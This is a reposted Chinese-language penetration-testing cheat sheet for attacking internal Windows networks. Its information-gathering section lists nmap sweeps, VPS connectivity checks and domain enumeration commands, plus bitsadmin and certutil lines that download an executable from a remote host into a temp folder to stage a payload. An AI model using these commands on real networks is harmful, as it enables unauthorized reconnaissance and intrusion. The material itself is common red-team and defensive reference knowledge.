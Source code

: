 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12358812.html)

转载自：乌云安全  
原文链接：[内网攻防经典技术备忘录](https://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247484649&idx=1&sn=f0d9740f36fd8da647752113170ba6d8&chksm=9aced476adb95d605dd513d80c7012830c1a3479e1796d18219835db8e41eedf7cb009bbc09c&mpshare=1&scene=23&srcid=&sharer_sharetime=1582338795708&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd)

### 0x01 信息搜集

```
#nmap扫描实时存活的ip
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips


```

#### 1.1 常用命令

```
arp -a 
route print 获取arp表
curl vps:8080  http连通性
nslookup www.baidu.com vps-ip
dig @vps-ip www.baidu.com     测试dns连通性
nslookup hacked.com 判断域控与DNS是否为同一主机
tracert  路由跟踪实用程序，用于确定IP数据包访问目标所采取的路径

bitsadmin /transfer n http://192.168.3.1/test.exe C:\\windows\\temp\\test.exe
certutil.exe -urlcache -split -f http://192.168.3.1/test.exe file.exe

fuser -nv tcp 80 查看端口进程的pid
netstat -p TCP -ano  DNS服务器可能开放了53端口(域控) 更新服务器可能开放了8530端口

set  查看系统的环境变量
query user || qwinsta 查看当前在线用户
rdesktop -u username ip  linux连接win远程桌面

where file win查找文件是否存在
Linux下使用命令 find -name \*.jsp 来查找文件位置
Windows下使用 for /r c:\\windows\\temp\\ %i in (file lsss.dmp) do @echo %i
dir /s \*.exe 查找指定目录下及子目录下没隐藏文件

ipconfig /all 查看当前是否存在域
net user  查看本机用户
net user /domain 查看域用户
net user xxxx /domain  查询域用户的权限组
net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多

net view /domain 查看有几个域
net view \\\\dc   查看dc域内共享文件
net group /domain 查看域里面的组
net group "domain admins" /domain 查看域管
net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
net group "domain controllers" /domain 域控

net time /domain   域服务器通常会作为时间服务器
(1)找不到xxx域控制器:处于工作组,不存在域
(2)发生错误,拒绝访问:存在域,不是域用户
(3)查询成功:存在域,是域用户

net config workstation   当前登录域 - 计算机名 - 用户名

```